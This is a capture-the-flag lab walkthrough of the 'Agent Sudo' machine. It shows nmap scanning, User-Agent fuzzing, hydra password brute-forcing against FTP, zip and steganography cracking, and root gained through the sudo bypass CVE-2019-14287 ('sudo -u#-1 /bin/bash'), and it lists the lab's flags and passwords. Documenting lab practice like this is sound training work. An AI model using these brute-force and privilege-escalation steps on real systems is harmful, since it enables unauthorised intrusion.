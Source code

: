 ====Agent Sudo Flutter July 24 2021====

'IP 10.10.219.45</br>
	$ export IP=10.10.219.45'</br>
'MYIP 10.10.213.35</br>
	$ export MYIP=10.10.213.35'

# Recon #

----------------
	Scanning
----------------

- nmap -sV -sC -T5 -oN nmap_initial $IP

		'''
		21/tcp open  ftp     vsftpd 3.0.3
		22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
		80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
			http-server-header: Apache/2.4.29 (Ubuntu)
			http-title: Annoucement
		'''

---------------------
	Visiting Site
---------------------

	'''
	Dear agents,

	Use your own codename as user-agent to access the site.

	From,
	Agent R 
	'''
Codename? Guessing the "Agent [letter]" is what they mean

- Intercepting with Burp
	> Sniper 
		>> target field: User-Agent 
		>> wordlist of a-zA-Z 
		>> don't exclude HTTP headers and grep for "10, 20, 30, 40, 50"
			//looking for "30" for redirects but more information is always nice
			< 1 redirect found! > User-Agent: C

	> Intercept
		>> set User-Agent: C

		 '''
		 Attention chris,
		
		 Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!
		
		 From,
		 Agent R
		 '''


### Possible Users ###

- Chris
- R?
- J?


# Intrusion #

### ChrisFTP ###

- ftp $IP</br>
	Name: chris</br>
	Pass: crystal

	> ftp > ls

		'''
		-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
		-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
		-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
		'''
	
	> ftp > mget To_agentJ cute-alien.jpg cutie.png


- To_agentJ.txt	

		'''
		Dear agent J,

		All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

		From,
		Agent C
		'''


### Steganography ###

- binwalk cutie.png -e
- ls _cutie.png.extracted

		'''
		365  365.zlib  8702.zip  To_agentR.txt
		'''
	> 8702.zip is password protected</br>(see Passwords)

- 7z e 8702.zip
	> pass: alien
- To_agentR.txt

		'''
		Agent C,

		We need to send the picture to 'QXJlYTUx' as soon as possible!

		By,
		Agent R
		'''
	> QXJlYTUx</br>(see Passwords)


- steghide extract -sf cute-alien.jpg > message.txt
	> pass: Area51</br>(see Passwords)
	

- message.txt

		'''
		Hi james,

		Glad you find this message. Your login password is hackerrules!

		Don't ask me why the password look cheesy, ask agent R who set this password for you.

		Your buddy,
		chris
		'''


### SSH ###

- ssh james@$IP</br>
	pass: hackerrules!
	> ls

		'''
		Alien_autospy.jpg  user_flag.txt
		'''

*Flag Found*<details>
	<summary>Spoiler</summary>
		/home/james/user_flag.txt: b03d975e8c92a7c04146cfa7a5a313c7
</details>


# PrivEsc #

- sudo -l
	> password protected, tried "hackerrules!" and succeeded
	
		"(ALL, !root) /bin/bash"

- searching "(ALL, !root) /bin/bash"</br>
		
		CVE: 2019-14287
		sudo -u#-1 /bin/bash

- root gained

*Flag Found*<details>
	<summary>Spoiler</summary>
	/root/root.txt: b53a02f55b57d4439e3341834d70c062
</details>


# Passwords #

----------------
	Cracking
----------------

- chris' ftp
	> hydra -l chris -P rockyou.txt $IP ftp -o chris_pass</br>
	  pass: crystal

- 8702.zip
	> zip2john steno/_cutie.png.extracted/8702.zip > 8702john</br>
	  john 8702john</br>
	  pass: alien

- QXJlYTUx
	> CyberChef</br>
	  base64: Area51

---------------
	Exposed
---------------

- message.txt
	> user: james</br>
 	pass: hackerrules!

